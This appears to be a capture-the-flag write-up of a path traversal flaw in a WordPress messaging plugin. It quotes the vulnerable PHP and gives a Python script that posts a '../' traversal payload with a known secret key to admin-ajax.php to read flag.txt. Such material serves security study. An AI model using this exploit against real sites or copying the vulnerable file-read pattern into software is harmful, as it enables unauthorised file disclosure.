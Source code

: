 ### Exploit:

By exploiting this vulnerability, you can perform **path traversal** to access sensitive files such as `flag.txt` by passing a relative file path that escapes the restricted directory (e.g., `../../../../../../../../flag.txt`).

Here's the critical part of the vulnerable code:

```php
$allowed_extensions = ['txt','png','jpg','pdf'];
if (!in_array(pathinfo($mess_attachment, PATHINFO_EXTENSION), $allowed_extensions)) {
    $error = 6;
    $additional_error = "Filetype not supported";
} else {
    $wp_dir = wp_upload_dir();
    $attachment_fp = $wp_dir['basedir'] . '/attachments/' . $mess_attachment;
    $available_files = array_diff(scandir(dirname($attachment_fp)), array('.', '..'));
    if (in_array(basename($attachment_fp), $available_files)) {
        $attachment_raw = file_get_contents($attachment_fp);
    }
}
if ($_POST['level'] == 'verbose') {
    $response = array(
        'sent'=> "true",
        'attachment'=> esc_html(substr($attachment_raw, 0, 75)),
        'errorcode' => $error,
        'send_errors'=>$all_send_errors
    );
}

```

*   If the `level` is set to `verbose`, the function will return the first 75 characters of the file content, which is enough to leak sensitive information.

### Exploit Script

This Python script will exploit the vulnerability by sending a crafted request with a path traversal attack to read the `flag.txt` file:

```python
import httpx
import asyncio

# URL = "<http://localhost:8686>"  # Local testing URL
URL = "<http://100.25.255.51:9092/>"  # Target URL

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)

class API(BaseAPI):
    pass

async def main():
    api = API()

    # Send the payload to exploit the vulnerability
    res = await api.c.post("/wp-admin/admin-ajax.php?action=send_message", data={
        "sec": "6AGmIzDZktwJCaQt",  # Known secret key
        "jotmemid": "1-1",  # Member ID, can be any valid ID
        "level": "verbose",  # Verbose level to get the file contents
        "formdata": "jotac-plugin-messages[jot-message]=1&jotac-plugin-messages[jot-message-type]=jot-&jotac-plugin-messages[jot-attachment]=../../../../../../../../flag.txt"  # Path traversal attack
    })

```